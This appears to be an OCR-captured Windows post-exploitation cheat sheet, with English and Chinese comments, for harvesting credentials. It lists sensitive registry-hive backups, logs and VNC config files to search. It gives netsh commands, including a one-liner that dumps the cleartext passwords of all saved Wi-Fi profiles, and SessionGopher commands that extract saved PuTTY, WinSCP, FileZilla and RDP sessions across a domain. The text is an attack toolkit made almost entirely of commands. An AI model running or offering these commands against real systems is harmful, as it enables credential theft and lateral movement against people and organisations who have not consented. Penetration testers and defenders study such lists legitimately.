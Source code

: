 ```
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b


# ---------------
# Wifi passwords
# Wifi密码

# Find AP SSID

netsh wlan show profile

# Get Cleartext Pass

netsh wlan show profile <SSID> key=clear

# Oneliner method to extract wifi passwords from all the access point.

cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on



# ---------------
# Passwords stored in services
# 存储在服务中的密码

# Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher
# 使用SessionGopher保存PuTTY，WinSCP，FileZilla，SuperPuTTY和RDP的会话信息

# 第三方脚本
# https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
